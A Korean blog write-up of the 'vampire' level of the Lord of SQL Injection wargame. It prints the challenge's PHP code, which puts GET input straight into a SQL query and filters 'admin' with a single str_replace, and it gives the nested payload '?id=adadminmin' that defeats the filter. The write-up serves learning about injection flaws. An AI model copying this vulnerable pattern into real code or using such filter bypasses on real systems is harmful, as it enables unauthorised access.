 ```yaml
---
title: "[Lord of SQL Injection] LoS - vampire 문제풀이"
date: 2018-07-28
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


이번 문제도 역시 간단하게 풀 수 있었다.
일단 소스코드가 짧으니 문제가 더 간단하게 느껴지는 것 같다.  

<!--more-->

코드는 다음과 같다.  

```php
----------------------------------------------------------------
query : select id from prob_vampire where id=''
----------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  $_GET[id] = strtolower($_GET[id]);
  $_GET[id] = str_replace("admin","",$_GET[id]); 
  $query = "select id from prob_vampire where id='{$_GET[id]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("vampire"); 
  highlight_file(__FILE__); 
?>
```

처음에 문제를 보고 `troll` 문제랑 같은 문제인 줄 알았다.
그런데 이번 문제에서는 `ereg()` 함수가 사라지고 `strtolower()`과 `str_replace()` 함수가 생겼다.
함수 이름에서도 알 수 있다시피 `strtolower()` 함수는 문자열의 대문자를 소문자로 바꾸어주는 함수이고, `str_replace()` 함수는 특정 문자열을 내가 지정한 문자열로 바꾸어 주는 함수이다.

문제에서는 `GET` 방식으로 받아 온 값에서 `admin`이라는 문자를 `공백`으로 바꾸어 준다.
그런데 이 `str_replace()` 함수에는 한가지 단점(?)이 있는데, 전체 문자열 전체를 한번만 검사하고 재검사는 하지 않는다는 것이다.
만약에 `str_replace("admin", "", $var)`라고 구현한다면 아래와 같이 문자열이 있을 경우 결과는 다음과 같다.  

```php
#before

$var = "admin phpmyadmin administrator."

#after

$var = " phpmy istrator."
```

그런데 만약 `adadminmin` 라는 문자열이 있다면 가운데의 `admin`만 필터링 되어 사라지고 앞의 `ad`와 뒤의 `min`이 합쳐져 다시 `admin`이라는 단어를 만들 수 있게 된다.
역시나 주소창에 아래처럼 입력했더니 문제를 풀 수 있었다.  

```plain
?id=adadminmin
```

--- 

```php
------------------------------------------------------------------------
query : select id from prob_vampire where id='admin'
------------------------------------------------------------------------

VAMPIRE Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  $_GET[id] = strtolower($_GET[id]);
  $_GET[id] = str_replace("admin","",$_GET[id]); 
  $query = "select id from prob_vampire where id='{$_GET[id]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("vampire"); 
  highlight_file(__FILE__); 
?>
```

---

```plain
VAMPIRE Clear!!
```
